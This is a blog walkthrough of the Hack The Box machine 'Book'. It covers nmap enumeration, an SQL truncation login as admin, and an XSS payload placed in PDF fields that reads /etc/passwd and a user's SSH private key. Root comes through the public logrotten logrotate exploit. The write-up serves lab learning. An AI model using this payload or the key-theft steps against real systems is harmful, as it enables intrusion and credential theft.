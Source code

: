 ```yaml
---
layout: post
title:  htb-book
category: walkthrough
date:   2020-07-25 07:00:00
---
```


# ![Book](/assets/img/book/book.png)

# Enum
### NMAP

As always, begin with nmap  

>nmap -sC -sV -T4 -p 22,80 10.10.10.176  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-25 00:18 -03  
>Nmap scan report for 10.10.10.176  
>Host is up (0.19s latency).  
>  
>PORT   STATE SERVICE VERSION  
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
>| ssh-hostkey:   
>|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)  
>|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)  
>|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)  
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
>| http-cookie-flags:   
>|   /:   
>|     PHPSESSID:   
>|_      httponly flag not set  
>|_http-server-header: Apache/2.4.29 (Ubuntu)  
>|_http-title: LIBRARY - Read | Learn | Have Fun  
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 12.69 second    
  
Opening the port 80 I got this  
![book1](/assets/img/book/book1.png)

After register I found the admin  email: admin@book.htb  
![book2](/assets/img/book/book3.png)

At first I didn't know what to do with this  
Until I back to home page, look the source and find this  
![book3](/assets/img/book/book2.png)  

### SQL Truncation

Using *[SQL truncation](https://resources.infosecinstitute.com/sql-truncation-attack/)* with Burp Suite I tested "name" and "email" fields with more characters  

![book4](/assets/img/book/book4.png)  

Logged in with the credentials admin@book.htb qwerty  

![book5](/assets/img/book/book5.png)  

Using *[this](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)* as reference I found a way in  
### Exploit

Loged as user again I uploaded a pdf with the fields "author" and "book title" filled with this script  
\*Missing tags  

x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();  

Downloading the pdf at http://10.10.10.176/admin/collections.php?type=collections I got the /etc/passwd  

![book6](/assets/img/book/book6.png)  

If I was runnin to get user blood next step would be "file:///home/reader/user.txt"  

Before get the id\_rsa from reader I tried root, perhaps....  

Now I know that there is a user called reader, I chnged the script part "///etc/passwd" to "/home/reader/.ssh/id\_rsa and uploaded a new pdf, downloaded it again and a got the id\_rsa from user reader  

Copy that to another file called id\_rsa and "chmod 600 id\_rsa"  

![book7](/assets/img/book/book7.png)  

Now just "ssh -i id\_rsa reader@10.10.10.176" and smile  

![book8](/assets/img/book/book8.png)
# Priv Esc

After a enumerte almost everything and don't find nothing  

I used [pspy](https://github.com/DominicBreuker/pspy.git) and find root process  
scp -i id\_rsa pspy64s reader@10.10.10.176  


pspy give me this process logrotate /usr/sbin/logrotate -f /root/log.cfg  

![book9](/assets/img/book/book9.png)

Search logrotate exploit in google and found [this](https://github.com/whotwagner/logrotten) on github  
Cloned the repository and uploaded it with scp command  
Unziped the archive and compiled the logrotten.c with gcc

gcc -o logrotten logrotten.c  

Created the payload  and executed logrotten

![book10](/assets/img/book/book10.png)  

Now just cat /tmp/id\_rsa to another file and ssh to root


![book11](/assets/img/book/book11.png)  
![book12](/assets/img/book/book12.png)  

